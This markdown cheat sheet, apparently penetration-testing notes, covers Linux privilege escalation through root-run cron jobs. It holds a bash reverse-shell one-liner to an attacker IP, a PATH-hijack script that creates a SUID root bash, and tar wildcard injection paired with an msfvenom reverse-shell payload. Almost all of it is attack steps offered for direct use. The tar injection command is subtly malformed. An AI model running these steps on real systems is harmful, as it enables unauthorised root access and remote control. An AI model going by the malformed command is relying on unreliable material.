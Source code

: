 # Cronjobs

## Cron Jobs - File Permissions

- Check if the cronjobs are run by the root user
- If the script being executed by the root user has write permissions then you can set up a connection to your attacking machine with the following.
- `bash -i >& /dev/tcp/10.10.10.10/4444 0>&1`

## Cron Jobs - Path Environmental Variables

```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

- If the crontab looks like the above & if there is a directory in the PATH that you can control, then create a file `overwrite.sh` inside the /home/user directory.
- **overwrite.sh**
```
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```
- `chmod +x /home/user/overwrite.sh;`
- As soon as the cron runs, you can run the rootbash shell as follows - `cd /tmp; ./rootbash -p`
- You will be gaining the shell with root privileges


## Cron Jobs - Wildcards

- Often try and explore the contents of the cronjob script
- check if any programs used are falling in the purview of GTFObins, if the answer is YES you can exploit it.
- Let us say that the tar command is being used to compress files, and especially if there is a wildcard entry * then you can create files inside the directory which is supposed to be compressed & inject your payloads through to the tar file
- First generate the payload using msfvenom - `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.18.112.115 LPORT=4444 -f elf -o shell.elf`
- Ship `shell.elf` to the target machine & do a `chmod +x shell.elf`
- Create a couple of files with touch as follows - `touch --checkpoint=1;touch --checkpoint-action-exec=shell.elf;`
- now let the cronjob run & you create a listener on your attacking machine & you will nicely get a reverse stageless shell.
